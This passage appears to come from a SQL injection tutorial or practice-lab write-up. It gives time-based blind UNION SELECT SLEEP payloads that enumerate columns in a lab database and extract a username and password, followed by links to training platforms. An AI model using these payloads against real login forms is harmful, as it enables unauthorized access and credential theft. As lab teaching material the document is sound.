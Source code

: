 #### Step4:Find out Column name
      
      admin123' UNION SELECT SLEEP(5),2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
Here Column name ***username and password***

#### Step5:Findout Column value
      admin123' UNION SELECT SLEEP(5),2,3 from users where username like 'a%
 Here ***username:admin***
      admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
 Here ***password:pass***
 SO the target login credentials 
                                ***username:admin
                                password:pass***
## Practicing and Learning Resources:

#### Try Hack Me :

      https://tryhackme.com/room/sqlinjectionlm
      https://tryhackme.com/room/sqhell

#### Hack The Box Academy :

      https://academy.hackthebox.com/module/33/section/177

#### Port Swigger:         
     https://portswigger.net/web-security/sql-injection
     
